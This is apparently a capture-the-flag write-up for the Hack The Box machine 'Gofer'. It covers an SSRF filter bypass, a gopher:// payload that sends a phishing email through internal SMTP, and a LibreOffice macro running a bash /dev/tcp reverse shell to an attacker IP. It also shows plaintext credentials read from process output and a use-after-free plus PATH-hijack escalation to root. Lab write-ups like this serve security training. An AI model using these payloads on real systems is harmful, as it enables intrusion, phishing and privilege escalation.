



# Gofer HTB

## Overview
---

> Gofer is a hard linux box, I discovered a bypassable HTTP proxy vulnerable to Server-Side Request Forgery. Utilizing this SSRF vulnerability, I sent a phishing email through the internal SMTP server via the gopher protocol, embedding a malicious macro that activates upon document opening. Next, I obtained user credentials from a background process linked to the proxy. Finally, I found a vulnerability in the `notes` binary, exploiting a use-after-free vulnerability associated with a dangling pointer.

---
## Enumeration
---

### Open Ports

Found 5 ports using nmap:
- Port 22 is running OpenSSH.
- Port 25 is likely blocked by a firewall as it appears to be filtered.
- Port 80 is hosting an Apache Web Server.
- Ports 139 and 445 are utilized for SMB over NetBIOS.

```bash
> nmap -p- -Pn -T4 --min-rate 1000 --max-retries 5 -oA nmap/10.10.11.225_fullScan 10.10.11.225
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 20:49 IST
Nmap scan report for 10.10.11.225
Host is up (0.082s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
25/tcp   filtered smtp
80/tcp   open     http
139/tcp  open     netbios-ssn
445/tcp  open     microsoft-ds
8383/tcp open     m2mservices
```

```bash
> nmap -p22,25,80,139,445,8383 -sV -sC -T4 -Pn -oA nmap/10.10.11.225 10.10.11.225
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 20:53 IST
Nmap scan report for 10.10.11.225
Host is up (0.057s latency).

PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 aa:25:82:6e:b8:04:b6:a9:a9:5e:1a:91:f0:94:51:dd (RSA)
|   256 18:21:ba:a7:dc:e4:4f:60:d7:81:03:9a:5d:c2:e5:96 (ECDSA)
|_  256 a4:2d:0d:45:13:2a:9e:7f:86:7a:f6:f7:78:bc:42:d9 (ED25519)
25/tcp   filtered smtp
80/tcp   open     http         Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp  open     netbios-ssn  Samba smbd 4.6.2
445/tcp  open     netbios-ssn  Samba smbd 4.6.2
8383/tcp open     m2mservices?
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-08-08T15:24:51
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```


### port 445 - SMB Enum

SMB allows anonymous access and has a share named `shares` readable. CME also confirms the domain, `gofer.htb` from the anonymous bind. Although strangely, the OS is identified as Windows 6.1
Enumerating SMB, discovered that it permits anonymous access and includes a readable share named "shares." Moreover, `cme` verified the the `gofer.htb` domain through the anonymous bind.

```bash
> cme smb 10.10.11.225 -u 'guest' -p '' --shares
SMB         10.10.11.225    445    GOFER            [*] Windows 6.1 Build 0 (name:GOFER) (domain:htb) (signing:False) (SMBv1:False)
SMB         10.10.11.225    445    GOFER            [+] htb\guest:
SMB         10.10.11.225    445    GOFER            [*] Enumerated shares
SMB         10.10.11.225    445    GOFER            Share           Permissions     Remark
SMB         10.10.11.225    445    GOFER            -----           -----------     ------
SMB         10.10.11.225    445    GOFER            print$                          Printer Drivers
SMB         10.10.11.225    445    GOFER            shares          READ
SMB         10.10.11.225    445    GOFER            IPC$                            IPC Service (Samba 4.13.13-Debian)
```

I also discovered a file named `mail` within a hidden backup directory on the `shares` share by using CrackMapExec's spider_plus module.

```bash
> cme smb 10.10.11.225 -u 'guest' -p ''  -M spider_plus -o READ_ONLY=false
SMB         10.10.11.225    445    GOFER            [*] Windows 6.1 Build 0 (name:GOFER) (domain:htb) (signing:False) (SMBv1:False)
SMB         10.10.11.225    445    GOFER            [+] htb\guest:
SPIDER_P... 10.10.11.225    445    GOFER            [*] Started module spidering_plus with the following options:
SPIDER_P... 10.10.11.225    445    GOFER            [*]  DOWNLOAD_FLAG: False
SPIDER_P... 10.10.11.225    445    GOFER            [*]     STATS_FLAG: True
SPIDER_P... 10.10.11.225    445    GOFER            [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.10.11.225    445    GOFER            [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.10.11.225    445    GOFER            [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.10.11.225    445    GOFER            [*]  OUTPUT_FOLDER: /tmp/cme_spider_plus
SPIDER_P... 10.10.11.225    445    GOFER            [+] Saved share-file metadata to "/tmp/cme_spider_plus/10.10.11.225.json".
SPIDER_P... 10.10.11.225    445    GOFER            [*] SMB Shares:           3 (print$, shares, IPC$)
SPIDER_P... 10.10.11.225    445    GOFER            [*] SMB Readable Shares:  1 (shares)
SPIDER_P... 10.10.11.225    445    GOFER            [*] Total folders found:  1
SPIDER_P... 10.10.11.225    445    GOFER            [*] Total files found:    1
SPIDER_P... 10.10.11.225    445    GOFER            [*] File size average:    1.08 KB
SPIDER_P... 10.10.11.225    445    GOFER            [*] File size min:        1.08 KB
SPIDER_P... 10.10.11.225    445    GOFER            [*] File size max:        1.08 KB
> cat /tmp/cme_spider_plus/10.10.11.225.json
{
    "shares": {
        ".backup/mail": {
            "atime_epoch": "2023-08-08 11:47:32",
            "ctime_epoch": "2023-04-27 18:19:32",
            "mtime_epoch": "2023-04-27 18:19:32",
            "size": "1.08 KB"
        }
    }
}
```

After retrieving the content of the "main" file using smbclient,
- The email indicates the presence of an internal SMTP server, as the mail is received from localhost.
- Based on the email addresses in the "to" and "from" fields, identified two potential usernames:
    - `jdavis`
    - `tbuckley`
- The email mentions a phishing attempt on Jocelyn, who appears to be susceptible to clicking on links.
- Additionally, the email emphasizes that any important documents should be sent exclusively through the internal mail server and in the `.odt` format.
- It is also noted that a web proxy is under development, and because of it's potential security concerns, it may have restricted access.

```bash
> smbclient -N //10.10.11.225/shares
Try "help" to get a list of possible commands.
smb: \> get .backup\mail -
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
getting file \.backup\mail of size 1101 as - (1.4 KiloBytes/sec) (average 1.2 KiloBytes/sec)

```

### HTTP - gofer.htb

Analyzing the headers, it appears that the web service redirects to the `gofer.htb` virtual host. However, the headers do not provide any other substantial information.

```bash
> http -ph 10.10.11.225
HTTP/1.1 301 Moved Permanently
Connection: Keep-Alive
Content-Length: 303
Content-Type: text/html; charset=iso-8859-1
Date: Tue, 08 Aug 2023 15:28:43 GMT
Keep-Alive: timeout=5, max=100
Location: http://gofer.htb/
Server: Apache/2.4.56 (Debian)
```

The website is designed for bootstrap developers, but unfortunately, none of its features are functioning.


#### Fuzzing

I tried fuzzing for directories and files using `ffuf`, but didn't find anything noteworthy.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://gofer.htb//FUZZ -o ffuf_gofer.md -of md -t 100

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 6204ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 6214ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 6232ms]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 2298ms]
index.html              [Status: 200, Size: 29380, Words: 7647, Lines: 622, Duration: 1256ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1226ms]
```

I had a valid virtual host, so I used `wfuzz` to identify any additional virtual hosts and came across one named `proxy`.

```bash
> wfuzz_subdomain_enum gofer.htb --hw 28
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://gofer.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000084:   401        14 L     54 W       462 Ch      "proxy"

Total time: 213.0168
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 23.42068
```


---
## Initial Foothold
---

### HTTP - proxy.gofer.htb

A GET request to `proxy.gofer.htb` returns a 401 error and required basic authentication.

```bash
❯ http -ph proxy.gofer.htb
HTTP/1.1 401 Unauthorized
Connection: Keep-Alive
Content-Length: 462
Content-Type: text/html; charset=iso-8859-1
Date: Tue, 24 Oct 2023 23:06:58 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.56 (Debian)
WWW-Authenticate: Basic realm="Restricted Content"
```

I also tried fuzzing the "proxy" virtual host, but it didn't lead to anything significant.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://proxy.gofer.htb/FUZZ -o ffuf_proxy.md -of md -t 100 -fs 462

.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 6694ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 6728ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 6817ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 56ms]
```

Since the email referenced restricted access, I also fuzzed `proxy` for POST requests and that returns a 200 for `index.php`.

```bash
> ffuf -X POST -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://proxy.gofer.htb/FUZZ -o ffuf_proxy_post.md -of md -t 100 -fs 462

.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 71ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4692ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4707ms]
index.php               [Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 59ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 60ms]
```

When making a POST request to `index.php`, it raises an error about a missing URL parameter, could be a potential Server-Side Request Forgery (SSRF) vulnerability.

```bash
> http POST proxy.gofer.htb/index.php
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 94
Content-Type: text/html; charset=UTF-8
Date: Tue, 08 Aug 2023 18:28:34 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```


### Exploiting  SSRF

Given that the index page only accepts POST requests, I assumed it would require either raw or JSON POST data for proper interaction. However, it only accepts the `url` param as GET parameter. For `httpie`, POST parameters are set using `=` and GET parameters can be set using `==`.

```bash
> http -pb POST proxy.gofer.htb/index.php url=http://localhost
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

When attempting to exploit the SSRF vulnerability, I discovered that words like `localhost` and its common bypasses were blacklisted.

```bash
> http -pb POST proxy.gofer.htb/index.php url==http://localhost
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: localhost !</body></html>

> http -pb POST proxy.gofer.htb/index.php url==http://127.1
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```

I experimented with various bypass attempts and observed that `0.0.0.0` was not blacklisted. However, despite this bypass, it didn't provide a solution. I also attempted to access the filtered SMTP port, but unfortunately, it did not yield any results.

```bash
❯ http -pb POST proxy.gofer.htb/index.php url==http://0.0.0.0:25
<!-- Welcome to Gofer proxy -->

```

#### SSRF File Read

I made an effort to use [different URIs](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#file), including `file://`, but found that it was blacklisted.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:///etc/hostname
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```

However, I noticed that by using "file:" without the double slashes, I was able to make it work and dump the contents of `/etc/hostname`

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/etc/hostname
<!-- Welcome to Gofer proxy -->
gofer.htb
1
```

Using the same bypass, I successfully retrieved users with a login shells, and found four different users.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```

I made an attempt to read the `.htaccess` and `.htpasswd` files for the proxy virtual host, which required basic authentication, but unfortunately, it didn't yield any useful information.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/var/www/proxy/.htaccess
<!-- Welcome to Gofer proxy -->
RewriteEngine on
RewriteRule ^.+$ /index.php [L]
1

> http -pb POST proxy.gofer.htb/index.php url==file:/var/www/proxy/.htpasswd
<!-- Welcome to Gofer proxy -->
```

#### SSRF Gofer

I'm aware that there's an SMTP service running on the internal network. However, since I don't have control over the method or protocol for the SSRF request, I couldn't directly interact with the SMTP service. To work around this, I used [Gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher), a protocol that allows communication with various TCP servers. Using the [Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/) tool I was able to generate a Gopher payload, enabling me to exploit the SSRF vulnerability and communicate with the internal SMTP server.

The usernames on the server appear to follow the pattern of `$(FirstNameInitial)$(LastName)`. Given that the target user for the phishing attempt is Jocelyn and the only username starting with 'J' is `jhudson`, it's reasonable to assume that this could be their username. This implies that the 'To' email address would be `jhudson@gofer.htb`. In the message, I included a link to an ODT file hosted on my attack box.

```bash
> python2 gopherus.py --exploit smtp


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

        author: $_SpyD3r_$


Give Details to send mail:

Mail from :  abraxas@gofer.htb
Mail To :  jhudson@gofer.htb
Subject :  Definitely not a phishing attempt
Message :  Not malicious <a href=http://10.10.14.132/exploit.odt>link</a>

Your gopher link is ready to send Mail:

gopher://127.0.0.1:25/_MAIL%20FROM:abraxas%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:abraxas%40gofer.htb%0ASubject:Definitely%20not%20a%20phishing%20attempt%0AMessage:Not%20malicious%20%3Ca%20href%3Dhttp://10.10.14.132/exploit.odt%3Elink%3C/a%3E%0A.

-----------Made-by-SpyD3r-----------

```

### Crafting a malicious macro for ODT

Now, that I have  way to communicate with the SMTP server, I need to craft an ODT file with a malicious macro. This [blog post](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html) explains how to create the malicious macro.

Step 1: A new macro can be created from the BASIC Macros option under Tools.



Step 2: The macro follows Visual Basic, so the payload should be in VB. In this case, it's a simple shell function that executes a reverse shell payload.



Step 3: Simply creating a new macro wouldn't be enough, the Macro needs to be executed when Jocelyn clicks on the link and opens it.



The macro needs to be assigned to malicious `odt` file for this to work properly.


While crafting this malicious file, I realized that a simple reverse shell payload like `bash -i >& /dev/tcp/$IP/$PORT 0>&1` didn't work. The file was retrieved from the local HTTP server, but the payload wouldn't be executed.

```
Sub exploit
    shell("bash -i >& /dev/tcp/10.10.14.132/9005 0>&1")
End Sub
```

As per [LibreOffice's documentation](https://ask.libreoffice.org/t/how-to-use-shell-from-basic-macro-solved/23590), the first parameter for `Shell()` is specified as `Pathname As String`. This is the reason the payload needs to be enclosed within a bash command string using `bash -c`.

```
Sub exploit
    shell("bash -c 'bash -i >& /dev/tcp/10.10.14.132/9005 0>&1'")
End Sub
```

Using the previously created Gopherus payload for gofer and leveraging the SSRF vulnerability, I can now send the email to Jocelyn with the malicious file. The only modification required is to change the IP address from `127.0.0.1` to either `0.0.0.0` or simply `0`.

```bash
> http -pb POST proxy.gofer.htb/index.php url==gopher://0.0.0.0:25/_MAIL%20FROM:abraxas%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:abraxas%40gofer.htb%0ASubject:Definitely%20not%20a%20phishing%20attempt%0AMessage:Not%20malicious%20%3Ca%20href%3Dhttp://10.10.14.132/revShell.odt%3Elink%3C/a%3E%0A.
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 4ED0C66EF
421 4.4.2 gofer.htb Error: timeout exceeded
1
```

After a brief wait, I successfully obtained a shell as `jhudson`. It is highly likely that this occurred because they clicked on the link in the email.

```bash
> pc -lp 9005
[13:46:39] Welcome to pwncat 🐈!                                                                    __main__.py:164
[13:47:06] received connection from 10.10.11.225:35422                                                   bind.py:84
[13:47:08] 0.0.0.0:9005: normalizing shell path                                                      manager.py:957
[13:47:10] 10.10.11.225:35422: registered new host w/ db                                             manager.py:957
(local) pwncat$
You have mail in /var/mail/jhudson
(remote) jhudson@gofer.htb:/usr/bin$ id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
(remote) jhudson@gofer.htb:/usr/bin$
```

---
## Privilege Escalation to jhudson
----

I decided to investigate the `/var/mail` directory, given the presence of an internal mail server. However, I couldn't access any other mails within that directory due to permission issues.

```bash
(remote) jhudson@gofer.htb:/usr/bin$ ls -la /var/mail/
total 12
drwxrwsr-x  2 root    mail 4096 Aug  9 09:16 .
drwxr-xr-x 12 root    root 4096 Jul 19 12:44 ..
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 ablake -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 jdavis -> /dev/null
-rw-r-----  1 jhudson mail    1 Aug  9 09:25 jhudson
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 root -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 tbuckley -> /dev/null
(remote) jhudson@gofer.htb:/usr/bin$ cat /var/mail/jhudson
```

When attempting to check for sudo privileges, I noticed an unusual absence of the `sudo` binary in the shell. This suggests the possibility of a restricted environment.

```bash
(remote) jhudson@gofer.htb:/home/jhudson$ sudo -l
bash: sudo: command not found
```

Looking for background processes, found a recurring request to the proxy vhost along with credentials for basic authentication.
While searching for background processes using [pspy](https://github.com/DominicBreuker/pspy), I discovered a recurring request to the proxy virtual host, and within it, I found credentials for basic authentication → `tbuckley:ooP4dietie3o_hquaeti`.

```bash
2023/08/09 09:33:01 CMD: UID=0     PID=5521   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5522   | /bin/bash /root/scripts/curl.sh
2023/08/09 09:33:01 CMD: UID=0     PID=5523   | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti
2023/08/09 09:33:01 CMD: UID=0     PID=5526   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5527   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5528   | /usr/sbin/postdrop -r
2023/08/09 09:33:01 CMD: UID=0     PID=5529   | /bin/bash /root/scripts/mail.sh
2023/08/09 09:33:01 CMD: UID=0     PID=5530   | /usr/bin/grep -Eo http://[^ >]+ /var/mail/jhudson
```

The credentials I found were reused for SSH access to the `tbuckley` user account. It's interesting to note that `tbuckley` is also part of the `dev` group.

```bash
(remote) tbuckley@gofer.htb:/home/tbuckley$ id
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
```

---
## Privilege Escalation to root
----

Since `tbuckley` belongs to the `dev` group, I looked for all files owned by that group and discovered a binary with the SUID bit enabled. It appears to be a menu driven note taking program.

```bash
(remote) tbuckley@gofer.htb:/home/tbuckley$ find / -group dev 2>/dev/null
/usr/local/bin/notes
(remote) tbuckley@gofer.htb:/home/tbuckley$ ls -al /usr/local/bin/notes
-rwsr-s--- 1 root dev 17168 Apr 28 16:06 /usr/local/bin/notes
(remote) tbuckley@gofer.htb:/var/mail$ file /usr/local/bin/notes
/usr/local/bin/notes: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6a9c0faa06eabfa48a864bb7341f29deecd7e9e3, for GNU/Linux 3.2.0, not stripped
```

```bash
(remote) tbuckley@gofer.htb:/home/tbuckley$ /usr/local/bin/notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice:
```

Interestingly, option 8, which is related to the notes backup, demands the admin role for access.

```bash
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access denied: you don't have the admin role!

```

### Analyzing the notes binary

Given that this is an unstripped executable, strings might uncover valuable information. It's worth noting that just before the error message for the backup operation, there's an execution of a `tar` archive command, which compresses the `/opt/notes` directory into a `tar.gz` file located in the `/root/` directory.

```bash
(remote) tbuckley@gofer.htb:/home/tbuckley$ strings -n 15 /usr/local/bin/notes
/lib64/ld-linux-x86-64.so.2
__libc_start_main
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
========================================
Choose an username:
First create an user!
Write your note:
Access granted!
tar -czvf /root/backups/backup_notes.tar.gz /opt/notes
Access denied: you don't have the admin role!
```


Since, strings didn't provide substantial information, I proceeded to decompiled the binary using Ghidra for a more in-depth analysis. I also renamed a few variables to make the code more readable.


At the beginning of the main function, two pointers, namely `note_var` and `username`, are defined and cleared by setting it to null references.

```c
undefined4 choice;
void *note_var;
void *username;

choice = 0;
username = (void *)0x0;
note_var = (void *)0x0;
```

Case 1 is for creating a new user,

- `username` is allocated 40 bytes of memory using `malloc(0x28)`.
- The first 24 bytes of memory (0x18) are initialized with zeros using `memset`.
- The next 16 bytes (0x10) are also set to zeros.
- If the binary is executed with superuser privileges (uid is 0).
	- it writes the values `0x696d6461` and `0x6e` to the `username` buffer at an offset of 28 bytes. These values correspond to the [string](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&input=MHg2ZTB4Njk2ZDY0NjE) "admin".
- Else the username buffer is set to user.
- This means the role required is at an offset of 24 bytes in the username buffer, `*username + 0x18`.

```c
case 1:
  username = malloc(0x28);
  if (username == (void *)0x0) {
                /* WARNING: Subroutine does not return */
    exit(-1);
  }
  memset(username,0,0x18);
  memset((void *)((long)username + 0x18),0,0x10);
  uid = getuid();
  if (uid == 0) {
    *(undefined4 *)((long)username + 0x18) = 0x696d6461;
    *(undefined *)((long)username + 0x1c) = 0x6e;
  }
  else {
    *(undefined4 *)((long)username + 0x18) = 0x72657375;
  }
  printf("Choose an username: ");
  __isoc99_scanf(&DAT_00102144,username);
  puts("");
  break;
```

Case 2 shows user information,
- If the username buffer is not clear, then it prints the user info.
- It also prints the role at `username + 0x18`.

```c
case 2:
  if (username == (void *)0x0) {
    puts("First create an user!\n");
  }
  else {
    printf("\nUsername: %s\n",username);
    printf("Role: %s\n\n",(long)username + 0x18);
  }
  break;
```

Case 4 relates to writing a new note
- The `note_var` is allocated 40 bytes and then cleared to ensure it contains no previous data.
- The user input is written to `note_var`.

```c
case 4:
  note_var = malloc(0x28);
  memset(note_var,0,0x28);
  if (note_var == (void *)0x0) {
                /* WARNING: Subroutine does not return */
    exit(-1);
  }
  puts("Write your note:");
  __isoc99_scanf(&DAT_0010218b,note_var);
  break;
```

Case 8 relates to backing up notes

- The backup routine is executed only if the role located at an offset of 40 bytes is set to "admin".
- The archive is executed with superuser privileges.

```c
case 8:
  if (username == (void *)0x0) {
    puts("First create an user!\n");
  }
  else {
    isAdmin = strcmp((char *)((long)username + 0x18),"admin");
    if (isAdmin == 0) {
      puts("Access granted!");
      setuid(0);
      setgid(0);
      system("tar -czvf /root/backups/backup_notes.tar.gz /opt/notes");
    }
    else {
      puts("Access denied: you don\'t have the admin role!\n");
    }
  }
}
```


### Exploiting Dangling pointer

Since the role was at offset of 40 bytes, my very first thought was to create a string with the string `admin` after the 40 byte, but that doesn't work, because the role is set based on privileges in case 1.

```bash
> python -c "print('0'*24+'admin')"
000000000000000000000000admin
```

Revisiting case 3, where the username is deleted, it's crucial to note that the username is **freed but _not cleared or set to NULL_**. This is an issue because username was originally a void pointer and now is a [dangling pointer](https://www.blackhat.com/presentations/bh-usa-07/Afek/Whitepaper/bh-usa-07-afek-WP.pdf). This can introduce a potential [use-after-free vulnerability](https://www.blackhat.com/docs/eu-16/materials/eu-16-Wen-Use-After-Use-After-Free-Exploit-UAF-By-Generating-Your-Own-wp.pdf).

```c
case 3:
  if (username != (void *)0x0) {
    free(username);
  }
  break;
```

In Case 4, where the `note_var` buffer is allocated 40 bytes of memory, which is the same size as the `username` buffer. Due to the way `malloc` works, the memory that was previously freed ( nut not cleared ) for the `username` buffer in case 3 will now be allocated to `note_var`.

By adding 24 bytes of random data followed by "admin" to the `note_var` buffer, I can effectively set the role to "admin" since the username still points to the same buffer. This action exploits use-after-free vulnerability created in case 3, allowing me to manipulate the role.

```c
case 4:
  note_var = malloc(0x28);
  memset(note_var,0,0x28);
  if (note_var == (void *)0x0) {
                /* WARNING: Subroutine does not return */
    exit(-1);
  }
  puts("Write your note:");
  __isoc99_scanf(&DAT_0010218b,note_var);
  break;
```

Exploitation path for the dangling pointer
- Create a new user, which initializes the role based on privileges.
- Delete the user, causing `free()` to deallocate the pointer and create a dangling pointer.
- Create a new note with data containing 24 random characters followed by "admin." This manipulation of the `note_var` buffer effectively sets the role as "admin" by exploiting the dangling pointer.
- With the "admin" role, execute the backup routine, which runs the `system("tar -czvf /root/backups/backup_notes.tar.gz /opt/notes");` command.
- Exploit PATH hijacking since `tar` doesn't have an absolute path set, allowing me to run my own malicious binary.


**Path Hijacking**

I created a file named "tar" with malicious code in the `/dev/shm` directory, made it executable, and added `/dev/shm` to the PATH. By doing this, I can successfully exploit the PATH hijacking vulnerability. As a result, when the archive function will, my malicious "tar" file in `/dev/shm` runs first, executing my malicious code.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ cat tar
#!/bin/bash

chmod +s /bin/bash
(remote) tbuckley@gofer.htb:/dev/shm$ chmod +x tar
(remote) tbuckley@gofer.htb:/dev/shm$ export PATH=/dev/shm:$PATH
(remote) tbuckley@gofer.htb:/dev/shm$ echo $PATH
/dev/shm:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin
```

The notes content can be created easily using python

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ python3 -c "print('0'*24+'admin')"
000000000000000000000000admin
```

Once all the necessary conditions are in place, I can trick the backup function into executing my malicious file.

